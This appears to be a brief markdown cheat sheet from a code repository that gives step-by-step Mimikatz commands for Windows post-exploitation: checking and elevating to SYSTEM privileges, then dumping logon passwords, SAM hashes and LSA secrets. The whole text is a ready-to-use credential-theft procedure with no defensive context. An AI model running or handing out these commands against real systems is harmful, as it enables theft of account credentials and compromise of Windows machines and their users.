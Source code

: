 # Mimikatz

- Check if you're `NT AUTHORITY\SYSTEM` privilege context.

`mimikatz # token::whoami`

- If not then elevate token then check privilege context.

```
mimikatz # token::elevate

mimikatz # token::whoami
```

- Then you can dump the credentials

```
mimikatz # sekurlsa::logonPasswords

mimikatz # lsadump::sam

mimikatz # lsadump::secrets
```